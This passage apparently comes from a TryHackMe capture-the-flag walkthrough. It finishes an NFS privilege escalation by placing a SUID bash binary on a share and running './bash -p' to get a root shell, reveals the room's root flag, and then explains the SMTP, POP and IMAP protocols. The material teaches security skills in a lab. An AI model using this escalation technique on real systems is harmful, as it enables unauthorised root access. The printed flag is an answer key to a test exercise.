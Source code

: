 Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.
```bash
$ ls -l bash 
-rwSr-Sr-- 1 root kali 1113504 Jan  7 01:48 bash
$ sudo chmod o=rx bash                                                                        1 ⨯
$ ls -l bash    
-rwSr-Sr-x 1 root kali 1113504 Jan  7 01:48 bash
```
It's **`-rwSr-Sr-x`**.

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
```bash
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
```

Great! If all's gone well you should have a shell as root! What's the root flag?
```bash
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
THM{nfs_got_pwned}
```
The root flag is **THM{nfs_got_pwned}**.



## Understanding SMTP
#### SMTP - Sending Emails
SMTP stands for "Simple Mail Transfer Protocol". It is utilised to handle the **sending** of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

The SMTP server performs three basic functions:
- It verifies who is sending emails through the SMTP server.
- It sends the outgoing mail
- If the outgoing mail can't be delivered it sends the message back to the sender

#### POP / IMAP - Receiving Emails
POP, or "Post Office Protocol" and IMAP, "Internet Message Access Protocol" are both email protocols who are responsible for the transfer of email between a client and a mail server. The main differences is in POP's more simplistic approach of **downloading the inbox from the mail server, to the client**. Where IMAP will **synchronise the current inbox, with new mail on the server, downloading anything new**. This means that changes to the inbox made on one computer, over IMAP, will persist if you then synchronise the inbox from another computer. The POP/IMAP server is responsible for fulfiling this process.

#### How does SMTP work?
Email delivery functions much the same as the physical mail delivery system. The user will supply the email (a letter) and a service (the postal delivery service), and through a series of steps- will deliver it to the recipients inbox (postbox). The role of the SMTP server in this service, is to act as the sorting office, the email (letter) is picked up and sent to this server, which then directs it to the recipient.
